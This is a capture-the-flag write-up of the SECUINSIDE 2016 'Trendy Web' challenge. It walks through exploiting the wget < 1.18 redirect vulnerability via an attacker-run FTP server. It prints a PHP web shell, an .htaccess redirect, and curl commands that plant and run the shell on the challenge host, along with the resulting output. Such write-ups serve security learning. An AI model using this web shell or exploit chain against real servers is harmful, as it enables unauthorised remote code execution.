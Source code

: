 ```yaml
---
layout: post
title: SECUINSIDE 2016 - Trendy Web [WEB]
author: menztrual
tags: [ctf, secuinside, web]
---
```


 * **Competition**: Secuinside 2016
 * **Challenge** Name: Trendy Web
 * **Type**: Web
 * **Points**: 100 pts
 * **URL**: http://chal.cykor.kr:8082/

<!--more-->

## Challenge Description:

```
Trendy~! Web~
The flag reader is on /.

http://chal.cykor.kr:8082
http://52.78.11.234:8082

p.s.
If the download doesn’t work, try this:
https://gist.github.com/Jinmo/e49dfef9b7325acb12566de3a7f88859

and it requires data/ folder
```


Looking at the provided source code, we can ascertain that this is going to be a remote code execution challenge. So our objectives are as follows:

 1. Upload a malicious .php script to the server
 1. Read the flag that's somewhere inside /


Starting off, my eyes were immediately drawn to an obvious deserialization vulnerability:

```php
function set_context($id) {
    global $_SESSION, $session_path;
    $session_path=getcwd() . '/data/'.$id;
    if(!is_dir($session_path)) mkdir($session_path);
    chdir($session_path);
    if(!is_file('pickle')) $_SESSION = array();
    else $_SESSION = unserialize(file_get_contents('pickle'));
}
```

Unfortunately, I was unable to successfully put a malicious payload inside of "pickle". Failing this, I went back to looking at the following snippets of code:

```php
if(isset($_POST['image'])) download_image($_POST['image']);
function download_image($url) {
    $url = parse_url($origUrl=$url);
    if(isset($url['scheme']) && $url['scheme'] == 'http')
    if($url['path'] == '/avatar.png') {
        system('/usr/bin/wget '.escapeshellarg($origUrl));
    }
}
```

The filename check and the `escapeshellarg` function prevents us from submitting a malicious image url that would execute arbitrary code. There was a recent [vulnerability](https://www.exploit-db.com/exploits/40064/) in wget < 1.18 and because we are in control of where the image is coming from, we can issue a crafted HTTP 30X Redirect to an FTP server that we control to pull down our malicious file.

Firstly, I setup an FTP server that had **anonymous** access enabled. I hosted a file, hello.php that had the contained the following:

```php
<?php
echo '<pre>';
system($_GET['x']);
?>
```

I then added a `.htaccess` on my webserver to redirect requests to avatar.png to my FTP server:

```
Redirect /avatar.png ftp://myftp.server/hello.php
```

Now to see if it worked:

```bash
[menztrual@orion ~]$ curl -X POST http://chal.cykor.kr:8082/ -d "image=http://menztrual.com/avatar.png" -b "PHPSESSID=095en4ci5vnhv8am2plbic4o47"
```

Then by browsing to http://chal.cykor.kr:8082//data/3442561f6d78aaf59afc/hello.php?x=ls%20/ we can see that the upload was successful and we have remote code execution.

```
total 36
drwxr-xr-x.  21 root   root     4096 Jul  9 13:54 .
drwxr-xr-x.  21 root   root     4096 Jul  9 13:54 ..
-rwxr-xr-x.   1 root   root        0 Jul  9 13:54 .dockerenv
drwxr-xr-x.   2 root   root     4096 Jul  9 09:40 bin
drwxr-xr-x.   2 root   root        6 Apr 17  2015 boot
drwxr-xr-x.   5 root   root      360 Jul  9 13:54 dev
drwxr-xr-x.  57 root   root     4096 Jul  9 13:54 etc
---x--x---.   1 root   www-data 6172 Jul  9 08:26 flag_is_heeeeeeeereeeeeee
drwxr-xr-x.   2 root   root        6 Apr 17  2015 home
drwxr-xr-x.   9 root   root     4096 Jul  9 09:40 lib
drwxr-xr-x.   2 root   root       33 Jan 22 07:46 lib64
drwxr-xr-x.   2 root   root        6 Jan 22 07:46 media
drwxr-xr-x.   2 root   root        6 Apr 17  2015 mnt
drwxr-xr-x.   2 root   root        6 Jan 22 07:46 opt
dr-xr-xr-x. 306 nobody nogroup     0 Jul  9 13:54 proc
drwx------.   2 root   root       35 Jan 22 07:47 root
drwxr-xr-x.   6 root   root       90 Jul  9 09:40 run
drwxr-xr-x.   2 root   root     4096 Jul  9 09:40 sbin
drwxr-xr-x.   2 root   root        6 Jan 22 07:46 srv
dr-xr-xr-x.  13 nobody nogroup     0 Jul  9 13:54 sys
drwx-wx-wt.   2 root   root        6 Jul  9 13:54 tmp
drwxr-xr-x.  10 root   root       97 Jan 26 17:48 usr
drwxr-xr-x.  12 root   root     4096 Jul  9 09:40 var
```

We just simply run `/flag_is_heeeeeeeereeeeeee` to obtain our flag to submit.

```bash
[menztrual@orion ~]$ curl http://chal.cykor.kr:8082//data/3442561f6d78aaf59afc/hello.php?x=/flag_is_heeeeeeeereeeeeee

1-day is not trendy enough
```
